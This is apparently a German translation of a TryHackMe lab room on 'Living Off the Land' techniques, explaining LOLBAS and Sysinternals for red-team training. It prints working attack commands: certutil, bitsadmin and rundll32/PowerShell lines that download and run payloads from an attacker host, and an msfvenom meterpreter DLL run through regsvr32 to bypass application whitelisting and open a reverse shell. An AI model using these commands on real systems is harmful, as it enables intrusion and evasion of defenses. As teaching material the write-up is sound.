



# Task 1 - Einführung

**Living Off the Land** ist ein Begriff aus der Red-Team-Community. Der Name stammt aus dem realen Leben, wo man von dem lebt, was das Land bietet. Ebenso nutzen Angreifer und Malware-Ersteller die eingebauten Tools und Dienstprogramme eines Zielcomputers. Der Begriff **Living Off the Land** wurde erstmals auf der [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw) im Jahr 2013 eingeführt und hat seitdem in der Red-Team-Community an Bedeutung gewonnen und ist zu einer häufig verwendeten und beliebten Technik geworden.

Diese eingebauten Tools führen verschiedene regelmäßige Aktivitäten innerhalb des Zielsystems oder der Netzwerkkapazitäten aus. Sie werden jedoch zunehmend missbraucht, beispielsweise durch die Verwendung des Tools [CertUtil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) zum Herunterladen bösartiger Dateien auf den Zielrechner.

Die Hauptidee besteht darin, Microsoft-signierte Programme, Skripte und Bibliotheken zu verwenden, um sich in die Umgebung einzufügen und Abwehrkontrollen zu umgehen. Red Teamer möchten nicht erkannt werden, wenn sie ihre Aktivitäten auf dem Zielsystem ausführen. Daher ist die Nutzung dieser Tools sicherer, um ihre Tarnung aufrechtzuerhalten.

### Folgende Kategorien umfasst "Living Off the Land":

- Aufklärung
- Dateioperationen
- Ausführung beliebigen Codes
- Laterale Bewegung
- Umgehung von Sicherheitsprodukten

### Lernziele

- Erfahren Sie mehr über den Begriff "Living Off the Land" in Red-Team-Engagements.
- Lernen Sie das LOLBAS-Projekt kennen und wie Sie es verwenden.
- Verstehen und Anwenden der Techniken, die in Red-Teaming-Engagements verwendet werden.

### Raumvoraussetzungen

- Grundkenntnisse in allgemeinen Hacking-Techniken.
- Abschluss des Lernpfads für [Junior Penetration Tester](https://tryhackme.com/path-action/jrpenetrationtester/join).
- TryHackMe-Modul für den [Red-Team-Initialzugriff](https://tryhackme.com/module/red-team-initial-access).

Wir haben eine Windows 10 Pro-Maschine bereitgestellt, um diesen Raum abzuschließen. Sie können die In-Browser-Funktion verwenden oder, wenn Sie möchten, über RDP eine Verbindung herstellen. Stellen Sie sicher, dass Sie dabei die AttackBox bereitstellen oder sich über das VPN verbinden.

Verwenden Sie die folgenden Anmeldedaten:

- Maschinen-IP: MACHINE_IP
- Benutzername: thm
- Passwort: TryHackM3

---

# Task 2 - Windows Sysinternals

### Was ist Windows Sysinternals?

Windows Sysinternals ist eine Sammlung von Tools und erweiterten Systemdienstprogrammen, die entwickelt wurden, um IT-Profis bei der Verwaltung, Fehlerbehebung und Diagnose des Windows-Betriebssystems in verschiedenen fortgeschrittenen Themen zu unterstützen.

Die Sysinternals Suite ist in verschiedene Kategorien unterteilt, darunter:

- Festplattenverwaltung
- Prozessverwaltung
- Netzwerktools
- Systeminformationen
- Sicherheitstools

Um die Windows Sysinternals-Tools zu verwenden, müssen wir die Microsoft-Lizenzvereinbarung dieser Tools akzeptieren. Dies können wir tun, indem wir das Argument `-accepteula` an der Befehlszeile übergeben oder es während der Ausführung der Tools über die GUI tun.

Einige beliebte Windows Sysinternals-Tools sind:

| Tool        | Beschreibung                                                                                             |
|-------------|----------------------------------------------------------------------------------------------------------|
| AccessChk   | Hilft Systemadministratoren, spezifische Zugriffe für Dateien, Verzeichnisse, Registry-Schlüssel, globale Objekte und Windows-Dienste zu überprüfen. |
| PsExec      | Ein Tool, das Programme auf einem Remote-System ausführt.                                                 |
| ADExplorer  | Ein fortschrittliches Active Directory-Tool, das hilft, die AD-Datenbank einfach anzuzeigen und zu verwalten. |
| ProcDump    | Überwacht laufende Prozesse auf CPU-Spitzen und erstellt Speicherdumps für weitere Analysen.              |
| ProcMon     | Ein wesentliches Werkzeug zur Prozessüberwachung.                                                        |
| TCPView     | Ein Tool, das alle TCP- und UDP-Verbindungen auflistet.                                                  |
| PsTools     | Das erste Werkzeug, das in der Sysinternals-Suite entwickelt wurde, um detaillierte Informationen anzuzeigen. |
| Portmon     | Überwacht und zeigt alle Aktivitäten an seriellen und parallelen Anschlüssen auf einem System an.         |
| Whois       | Bietet Informationen zu einem bestimmten Domainnamen oder einer IP-Adresse.                              |

Weitere Informationen zur Sysinternals Suite finden Sie auf der Webseite der Tools auf Microsoft Docs [hier](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).

### Sysinternals Live

Eine großartige Funktion von Windows Sysinternals ist, dass keine Installation erforderlich ist. Microsoft bietet einen Windows Sysinternals-Dienst namens Sysinternals Live an, mit verschiedenen Möglichkeiten zur Verwendung und Ausführung der Tools. Wir können darauf zugreifen über:

- Webbrowser ([Link](https://live.sysinternals.com/))
- Windows-Freigabe
- Befehlszeile

Um diese Tools zu verwenden, laden Sie sie herunter oder geben Sie den Pfad `\\live.sysinternals.com\tools` in den Windows Explorer ein.



**Beachten** Sie, dass da die angehängte VM keinen Internetzugang hat, wir die Sysinternals-Tools im Verzeichnis `C:\Tools\` vorab heruntergeladen haben.

```cmd
C:\Users\thm> C:\Tools\SysinternalsSuite\PsExec64.exe
```

Wenn Sie mehr über Windows Sysinternals erfahren möchten, empfehlen wir Ihnen, sich mit folgenden zusätzlichen Ressourcen vertraut zu machen:

- TryHackMe Raum: [Sysinternals](https://tryhackme.com/room/btsysinternalssg)
- Microsoft Sysinternals [Ressourcenwebsite](https://docs.microsoft.com/en-us/sysinternals/resources/)

### Nutzung und Vorteile für das Red Team

Obwohl eingebaute und Sysinternals-Tools nützlich für Systemadministratoren sind, werden diese auch von Hackern, Malware und Penetrationstestern aufgrund des innewohnenden Vertrauens, das sie innerhalb des Betriebssystems genießen, verwendet. Dieses Vertrauen ist für Red Teamer vorteilhaft, die nicht von Sicherheitskontrollen auf dem Zielsystem erkannt oder erwischt werden möchten. Daher wurden diese Tools genutzt, um Erkennung und andere Blau-Team-Kontrollen zu umgehen.

Denken Sie daran, dass aufgrund der zunehmenden Nutzung durch Angreifer und Malware-Ersteller diese Tools heute bekannt sind und defensive Maßnahmen gegen die meisten von ihnen implementiert wurden.

## Fragen:
```
Keine Antwort nötig
```

# Task 3 - LOLBAS Projekt
### Was ist LOLBAS
LOLBAS steht für **L**iving **O**ff the **L**and **B**inaries **A**nd **S**cripts, das Hauptziel des Projekts besteht darin, Microsoft-signierte und integrierte Tools zu sammeln und zu dokumentieren, die als Techniken zum Leben von der Land nutzen, einschließlich Binärdateien, Skripten und Bibliotheken.  


Das LOLBAS-Projekt ist eine Community-getriebene Sammlung, die eine Reihe von Binärdateien, Skripten und Bibliotheken zusammenstellt, die für Red-Team-Zwecke verwendet werden können. Es ermöglicht die Suche nach Binärdateien, Funktionen, Skripten und ATT&CK-Informationen. Das vorherige Bild zeigt, wie die LOLBAS-Projektseite derzeit aussieht. Wenn Sie mehr über das Projekt erfahren möchten, können Sie die Website des Projekts [hier](https://lolbas-project.github.io/) besuchen.

Die LOLBAS-Website bietet eine bequeme Suchleiste, um alle verfügbaren Daten abzufragen. Es ist einfach, nach einer Binärdatei zu suchen; das Einbeziehen des Binärdateinamens zeigt das Ergebnis an. Möchten wir jedoch nach einer bestimmten Funktion suchen, müssen wir einen `/` vor dem Funktionsnamen angeben. Wenn wir beispielsweise alle Ausführungsfunktionen suchen, sollten wir `/execute` verwenden. Ebenso sollten wir zur Suche nach Typen das Symbol `#` gefolgt vom Typennamen verwenden. Hier sind die Typen aufgeführt, die im Projekt enthalten sind:

- Skript
- Binärdatei
- Bibliotheken
- AndereMSBinaries

### Kriterien für Werkzeuge

Bestimmte Kriterien sind erforderlich, damit ein Werkzeug als "Living Off the Land" -Technik gilt und Teil des LOLBAS-Projekts akzeptiert wird:

- Microsoft-signierte Datei, die nativ für das Betriebssystem ist oder von Microsoft heruntergeladen wurde.
- Hat zusätzliche interessante unbeabsichtigte Funktionalitäten, die nicht durch bekannte Anwendungsfälle abgedeckt sind.
- Nutzen für eine APT (Advanced Persistent Threat) oder Red-Team-Engagement.

Bitte beachten Sie, dass Sie interessante Binärdateien, die diesen Kriterien entsprechen, durch Besuch der [GitHub-Repo-Beitragsseite](https://github.com/LOLBAS-Project/LOLBAS#criteria) einreichen können, um weitere Informationen zu erhalten.

### Interessante Funktionalitäten

Das LOLBAS-Projekt akzeptiert Werkzeugeinreichungen, die eine der folgenden Funktionalitäten erfüllen:

- Beliebige Codeausführung
- Dateioperationen, einschließlich Herunterladen, Hochladen und Kopieren von Dateien.
- Kompilierung von Code
- Persistenz, einschließlich Verstecken von Daten in alternativen Datenströmen (ADS) oder Ausführen beim Anmelden.
- UAC-Bypass
- Dumping von Prozessspeicher
- DLL-Injektion

## Fragen:
Besuchen Sie die Website des [LOLBAS-Projekts](https://lolbas-project.github.io/) und überprüfen Sie seine Funktionalitäten. Verwenden Sie dann die Suchleiste, um die ATT&CK-ID T1040 zu finden. Wie lautet der Name der Binärdatei?
```

```

Verwenden Sie die Suchleiste, um weitere Informationen über MSbuild.exe zu finden. Welche ATT&CK-ID hat sie?
```

```

Verwenden Sie die Suchleiste, um mehr Informationen über Scriptrunner.exe zu finden. Welche Funktion hat die Binärdatei?
```

```

In der nächsten Aufgabe werden einige Werkzeuge basierend auf den Funktionalitäten vorgestellt! Los geht's!
```
Keine Antwort nötig
```

# Task 4 - Dateioperationen
Diese Aufgabe zeigt häufig verwendete Tools basierend auf Funktionalitäten und Malware-Aktivitäten, die sowohl in der realen Welt als auch bei Red-Team-Engagements gesehen werden.

Diese Aufgabe wird einige interessante "Living Off the Land"-Techniken hervorheben, die darauf abzielen, in Dateioperationen wie Download, Upload und Kodierung verwendet zu werden.

### Certutil

Certutil ist ein in Windows integriertes Dienstprogramm zur Verwaltung von Zertifizierungsdiensten. Es wird verwendet, um Konfigurationsinformationen und andere Komponenten von Zertifizierungsstellen (CA) abzurufen und anzuzeigen. Normalerweise wird das Tool verwendet, um Zertifikatsinformationen abzurufen. Es wurde jedoch festgestellt, dass certutil.exe Dateien übertragen und kodieren kann, die nichts mit Zertifizierungsdiensten zu tun haben. Das MITRE ATT&CK-Framework **identifiziert diese Technik als Werkzeugübertragung** ([T1105](https://attack.mitre.org/techniques/T1105/)).

Um dies anhand eines Beispiels zu veranschaulichen, können wir `certutil.exe` verwenden, um eine Datei von einem Webserver des Angreifers herunterzuladen und sie im temporären Ordner von Windows zu speichern, wie im folgenden Befehl gezeigt. Beachten Sie, dass wir die Parameter `-urlcache` und `-split -f` verwenden, um das Tool zum Herunterladen von der angegebenen URL unter Verwendung der Split-Technik zu zwingen.
```cmd
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
```

`-urlcache` zeigt die URL an, aktiviert die Verwendung der URL-Option im Befehl
`-split -f` spaltet und erzwingt das Abrufen von Dateien von der angegebenen URL

Zusätzlich kann `certutil.exe` als Kodierungstool verwendet werden, um Dateien zu kodieren und den Inhalt von Dateien zu dekodieren. ATT&CK [T1027](https://attack.mitre.org/techniques/T1027/) bezieht sich auf diese Technik, um Dateien zu verschleiern, um sie schwerer erkennbar oder analysierbar zu machen.
```cmd
C:\Users\thm> certutil -encode payload.exe Encoded-payload.txt
```

Für weitere Informationen über das Tool können Sie die Microsoft-Dokumentation hier besuchen: [Microsoft Docs: CertUtil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)

### BITSAdmin

Das `bitsadmin` Tool ist ein Dienstprogramm für Systemadministratoren, mit dem Background Intelligent Transfer Service (BITS)-Jobs erstellt, heruntergeladen oder hochgeladen werden können und deren Fortschritt überprüft werden kann. [BITS](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) ist eine Methode mit geringer Bandbreite und asynchron, um Dateien von HTTP-Webservern und SMB-Servern herunterzuladen und hochzuladen. Weitere Informationen zum `bitsadmin` Tool finden Sie bei [Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin).

Angreifer können die BITS-Jobs missbrauchen, um eine bösartige Nutzlast auf einem kompromittierten Computer herunterzuladen und auszuführen. Weitere Informationen zu dieser Technik finden Sie auf der ATT&CK [T1197](https://attack.mitre.org/techniques/T1197/) Seite.

Stellen Sie den Inhalt des Terminalcontainers vor (erneute Betrachtung)
```cmd
C:\Users\thm>bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe
```

`/Transfer` zur Verwendung der Transferoption
`/Download` wir geben an, dass der Transfer mit dem Download-Typ erfolgt
`/Priority` wir setzen die Priorität des Jobs auf die Ausführung im Vordergrund

Für weitere Informationen zu den `Bitsadmin` Parametern können Sie die [Microsoft-Dokumentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin-transfer) des Tools besuchen.

### FindStr

[Findstr](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr) ist ein von Microsoft integriertes Tool, das zum Suchen von Text- und Zeichenfolgenmustern in Dateien verwendet wird. Das findstr-Tool ist nützlich, da es Benutzern und Systemadministratoren dabei hilft, in Dateien oder analysierten Ausgaben zu suchen. Wenn wir beispielsweise überprüfen möchten, ob Port 8080 auf unserem Computer geöffnet ist, können wir das Ergebnis von netstat an findstr übergeben, um diesen Port zu finden, wie folgt: `netstat -an | findstr "445"`.

Es wurde jedoch eine unbeabsichtigte Methode gefunden, indem `findstr.exe` verwendet wird, um remote Dateien aus SMB-Freigaben im Netzwerk herunterzuladen, wie folgt:
```
C:\Users\thm>findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe
```

`/V` gibt die Zeilen aus, die die angegebene Zeichenfolge nicht enthalten.
`dummystring` ist der Text, nach dem gesucht werden soll; in diesem Fall geben wir eine Zeichenfolge an, die nicht in einer Datei gefunden werden darf.
`> c:\Windows\Temp\test.exe` leitet die Ausgabe auf eine Datei auf dem Zielcomputer um.

Beachten Sie, dass auch andere Tools für Dateioperationen verwendet werden können. Wir empfehlen, das [LOLBAS](https://lolbas-project.github.io/) Projekt zu besuchen, um mehr darüber zu erfahren.

In der nächsten Aufgabe werden wir einige der Tools vorstellen, die zur Ausführung von Dateien verwendet werden.

## Fragen:
Führen Sie `bitsadmin.exe` aus, um eine Datei Ihrer Wahl auf der angehängten Windows-VM herunterzuladen. Sobald Sie den Befehl erfolgreich ausgeführt haben, wird automatisch eine codierte Flaggen-Datei auf dem Desktop erstellt. **Wie lautet der Dateiname?**

Verwenden Sie das Tool `certutil.exe`, um die codierte Flaggen-Datei aus **Frage #1** zu entschlüsseln. Verwenden Sie dazu die Option `-decode` wie folgt:
```cmd
C:\Users\thm> certutil -decode Encoded_file payload.txt
```
**Was ist der Dateiinhalt?**
```

```

# Task 5 - Datei Auführung
Diese Aufgabe zeigt verschiedene Methoden zur Ausführung einer Binärdatei innerhalb des Betriebssystems. Der übliche Fall der Ausführung einer Binärdatei umfasst verschiedene bekannte Methoden wie die Verwendung der Befehlszeile `cmd.exe` oder vom Desktop aus. Es gibt jedoch auch andere Möglichkeiten, Payloads auszuführen, indem andere Systembinärdateien missbraucht werden, unter anderem, um den Prozess des Payloads zu verbergen oder zu verstärken. Basierend auf dem MITRE ATT&CK Framework wird diese Technik als Signed Binary Proxy Execution oder Indirekte Befehlsausführung bezeichnet, bei der der Angreifer andere Systemwerkzeuge nutzt, um bösartige Payloads zu starten. Diese Technik hilft auch dabei, defensive Kontrollen zu umgehen.

### Datei-Explorer

Der Datei-Explorer ist ein Dateimanager und eine Systemkomponente für Windows. Es wurde festgestellt, dass die Verwendung der Datei-Explorer-Binärdatei andere `.exe` Dateien ausführen kann. Diese Technik wird als **Indirekte Befehlsausführung** bezeichnet, bei der das Tool `explorer.exe` missbraucht werden kann, um bösartige Skripte oder ausführbare Dateien aus einem vertrauenswürdigen Elternprozess zu starten.

Die `explorer.exe` Binärdatei befindet sich unter:

- C:\Windows\explorer.exe für die 64-Bit-Version von Windows.
- C:\Windows\SysWOW64\explorer.exe für die 32-Bit-Version von Windows.

Um einen Kindprozess von `explorer.exe` zu erstellen, können wir den folgenden Befehl ausführen:
```cmd
C:\Users\thm> explorer.exe /root,"C:\Windows\System32\calc.exe"
```

Durch den vorherigen Befehl wird der Taschenrechner auf dem Desktop geöffnet.

### WMIC

Windows Management Instrumentation (WMIC) ist ein Windows-Befehlszeilen-Dienstprogramm, das Windows-Komponenten verwaltet. Es wurde festgestellt, dass WMIC ebenfalls zum Ausführen von Binärdateien verwendet wird, um defensive Maßnahmen zu umgehen. Das MITRE ATT&CK Framework bezieht sich auf diese Technik als Signed Binary Proxy Execution ([T1218](https://attack.mitre.org/techniques/T1218/)).
```cmd
C:\Users\thm>wmic.exe process call create calc
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 1740;
        ReturnValue = 0;
};


C:\Users\thm>
```

Der vorherige `WMIC` Befehl erstellt einen neuen Prozess einer Binärdatei unserer Wahl, in diesem Fall `calc.exe`.

### Rundll32

Rundll32 ist ein Microsoft-eigenes Werkzeug, das DLL-Dateien innerhalb des Betriebssystems lädt und ausführt. Ein Red Team kann `rundll32.exe` missbrauchen, um beliebige Payloads auszuführen, JavaScript und PowerShell-Skripte zu starten. Das MITRE ATT&CK Framework identifiziert dies als Signed Binary Proxy Execution: Rundll32 und bezeichnet es als [T1218](https://attack.mitre.org/techniques/T1218/011/).

Die `rundll32.exe` Binärdatei befindet sich unter:

- C:\Windows\System32\rundll32.exe für die 64-Bit-Version von Windows.
- C:\Windows\SysWOW64\rundll32.exe für die 32-Bit-Version von Windows.

Nun versuchen wir, als Proof of Concept die Binärdatei `calc.exe` mithilfe der `rundll32.exe` Binärdatei auszuführen:
```cmd
C:\Users\thm> rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

In dem vorherigen Befehl haben wir die `rundll32.exe` Binärdatei verwendet, die eine JavaScript-Komponente, `eval()`, einbettet, um die Binärdatei `calc.exe`, einen Microsoft-Rechner, auszuführen.

Wie bereits erwähnt, können wir auch PowerShell-Skripte mithilfe der `rundll32.exe` ausführen. Der folgende Befehl führt ein JavaScript aus, das ein PowerShell-Skript ausführt, um von einer Remote-Website mithilfe von `rundll32.exe` herunterzuladen.
```cmd
C:\Users\thm> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```

Als Ergebnis der vorherigen Ausführung wurde eine Kopie des `Skripts.ps1` im Speicher auf dem Zielcomputer heruntergeladen.

## Fragen
Lesen Sie das oben Gesagte und üben Sie diese Werkzeuge an der angeschlossenen Maschine!
```
Keine Antwort nötig
```

# Task 6 - Umgehungen der Anwendungs-Whitelist
### Umgehung der Anwendungs-Whitelisting

Anwendungs-Whitelisting ist eine Sicherheitsfunktion von Microsoft, die verhindert, dass bösartige und nicht autorisierte Programme in Echtzeit ausgeführt werden. Anwendungs-Whitelisting basiert auf Regeln, die eine Liste von genehmigten Anwendungen oder ausführbaren Dateien festlegen, die auf einem Betriebssystem vorhanden sein dürfen und ausgeführt werden dürfen. Diese Aufgabe konzentriert sich auf LOLBAS-Beispiele, die verwendet werden, um das Anwendungs-Whitelisting von Windows zu umgehen.

### Regsvr32

Regsvr32 ist ein Microsoft-Befehlszeilenwerkzeug zum Registrieren und Deregistrieren von Dynamic Link Libraries (DLLs) in der Windows-Registrierung. Die regsvr.exe-Binärdatei befindet sich unter:

- C:\Windows\System32\regsvr32.exe für die 32-Bit-Version von Windows
- C:\Windows\SysWOW64\regsvr32.exe für die 64-Bit-Version von Windows

Neben seiner eigentlichen Verwendung kann die `regsvr32.exe` Binärdatei auch verwendet werden, um beliebige Binärdateien auszuführen und das Anwendungs-Whitelisting von Windows zu umgehen. Laut [Red Canary](https://redcanary.com/) Berichten ist die `regsvr32.exe` Binärdatei die drittbeliebteste [ATT&CK-Technik](https://attack.mitre.org/techniques/T1218/010/). Angreifer nutzen `regsvr32.exe`, um lokal oder remote nativen Code oder Skripte auszuführen. Die Technik, die bei der `regsvr32.exe` verwendet wird, nutzt vertrauenswürdige Windows OS-Komponenten und wird im Speicher ausgeführt, was einer der Gründe ist, warum diese Technik auch zur Umgehung des Anwendungs-Whitelistings verwendet wird.

Lassen Sie uns versuchen, diese Technik in der Praxis anzuwenden. Zunächst müssen wir eine bösartige DLL Datei mithilfe von msvenom erstellen und unseren Metasploit-Listener einrichten, um eine umgekehrte Shell zu empfangen. Beachten Sie, dass wir eine bösartige Datei erstellen werden, die für 32-Bit-Betriebssysteme funktioniert. Wir werden die Technik zur Umgehung des Anwendungs-Whitelistings mit `regsvr32.exe` verwenden, um einen Befehl auf einem Zielsystem auszuführen.
```shell
user@machine$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload 
No encoder specified, outputting raw payload 
Payload size: 375 bytes 
Final size of dll file: 8704 bytes 

user@machine$ user@machine$ msfconsole -q 
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp 
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp 
msf6 exploit(multi/handler) > set LHOST ATTACKBOX_IP
LHOST => ATTACKBOX_IP
msf6 exploit(multi/handler) > set LPORT 443 
LPORT => 443 
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on ATTACKBOX_IP:443 
```

Beachten Sie, dass wir den Ausgabetyp als DLL mithilfe des Arguments `-f` angegeben haben. Sobald die bösartige DLL-Datei erstellt ist, müssen wir das Payload an die Opfermaschine liefern. Wir werden dies tun, indem wir eine DLL-Datei von unserer angreifenden Maschine über einen Webserver bereitstellen, wie folgt:
```shell
user@machine$ python3 -m http.server 1337
```

Von der Opfermaschine aus besuchen Sie den Webserver der angreifenden Maschine auf Port `1337`, den wir angeben. Beachten Sie, dass dieser Port je nach Wunsch geändert werden kann!

Auf der Opfermaschine, sobald die DLL-Datei heruntergeladen ist, führen wir sie wie folgt mit `regsvr32.exe` aus:
```cmd
C:\Users\thm> c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll
or
C:\Users\thm> c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
```

Mit der zweiten Option, die ein fortgeschrittenerer Befehl ist, weisen wir `regsvr32.exe` an:

- `/s`: im stillen Modus (ohne Meldungen anzeigen)
- `/n`: um den DLL-Registrierungsserver nicht aufzurufen
- `/i`: einen anderen Server zu verwenden, da wir /n verwendet haben
- `/u`: um mit der Abmelde-Methode auszuführen

Auf der angreifenden Maschine sollten wir eine umgekehrte Shell erhalten.
```shell
msf6 > exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on ATTACKBOX_IP:443 
[*] Sending stage (175174 bytes) to 10.10.159.197 
[*] Meterpreter session 1 opened (ATTACKBOX_IP:443 -> 10.10.159.197:52845 ) at 2022-01-20 05:51:31 -0600
```

Beachten Sie, dass wenn wir eine 64-Bit-DLL-Version erstellen möchten, müssen wir dies im `msfvenom` Befehl angeben und sie von der Opfermaschine aus mit der 64-Bit-Version von `regsvr32.exe` unter C:\Windows\SysWOW64\regsvr32.exe ausführen.

### Bourne Again Shell (Bash)

Im Jahr 2016 fügte Microsoft Unterstützung für die Linux-Umgebung in Windows 10, 11 und Server 2019 hinzu. Diese Funktion ist als Windows Subsystem for Linux ([WSL](https://docs.microsoft.com/en-us/windows/wsl/about)) bekannt und existiert in zwei [WSL-Versionen](https://docs.microsoft.com/en-us/windows/wsl/compare-versions): WSL1 und WSL2. WSL ist eine virtualisierte Linux-Distribution von Hyper-V, die auf dem Betriebssystem läuft und einen Teil des Linux-Kernels und der Systemaufrufe unterstützt. Diese Funktion ist ein Add-On, das ein Benutzer installieren und mit einer Linux-Distribution interagieren kann. Als Teil von WSL ist `bash.exe` ein Microsoft-Tool zur Interaktion mit der Linux-Umgebung.

Menschen haben Wege gefunden, Payloads auszuführen und das Anwendungs-Whitelisting von Windows zu umgehen, da es sich um eine von Microsoft signierte Binärdatei handelt. Indem wir `bash.exe -c "Pfad-zum-Payload"` ausführen, können wir beliebige nicht signierte Payloads ausführen. ATT&CK nennt dies eine Technik zur **indirekten Befehlsausführung**, bei der Angreifer die Windows-Tools-Utility missbrauchen, um Befehlsausführungen zu erlangen. Für weitere Informationen zu dieser Technik können Sie die ATT&CK-Website [T1202](https://attack.mitre.org/techniques/T1202/) besuchen.  


Beachten Sie, dass Sie Windows Subsystem for Linux in Windows 10 aktivieren und installieren müssen, um die `bash.exe` Binärdatei zu verwenden. Außerdem unterstützt die angehängte VM aufgrund von Einschränkungen für verschachtelte Virtualisierungen das Linux-Subsystem nicht.

Denken Sie daran, dass dieser Abschnitt einige interessante Tools hervorgehoben hat. Wenn Sie daran interessiert sind, die verfügbaren LOLBAS-Tools zu überprüfen, können Sie die [Projektwebsite](https://lolbas-project.github.io/) besuchen.

## Fragen:
Für weitere Informationen zur Umgehung von Windows-Sicherheitskontrollen empfehlen wir, den THM-Kurs: Umgehung von UAC und Applocker zu überprüfen, sobald er veröffentlicht wird!
```

```

# Task 7 - Andere Teschnicken
Dieser Abschnitt hebt ein paar interessante Techniken hervor, die entweder für den initialen Zugang oder die Persistenz verwendet werden. Die folgenden Techniken gehören zum Bereich "Living Off the Land", da sie als Teil der Windows-Umgebungsprogramme genutzt werden können.

### Verknüpfungen

Verknüpfungen oder symbolische Links sind eine Technik, um auf andere Dateien oder Anwendungen im Betriebssystem zu verweisen. Wenn ein Benutzer auf die Verknüpfungsdatei klickt, wird die referenzierte Datei oder Anwendung ausgeführt. Oft nutzt das Red Team diese Technik, um initialen Zugang, Privilegienerweiterung oder Persistenz zu erlangen. Das MITRE ATT&CK Framework nennt diese **Technik Shortcut-Modifikation** [T1547](https://attack.mitre.org/techniques/T1547/009/), bei der ein Angreifer eine Verknüpfung erstellt oder modifiziert, um von dieser Technik zu profitieren.

Um die Technik der Shortcut-Modifikation zu nutzen, können wir den Zielbereich einstellen, um Dateien auszuführen mit:

- Rundll32
- Powershell
- Regsvr32
- Ausführbare Dateien auf der Festplatte

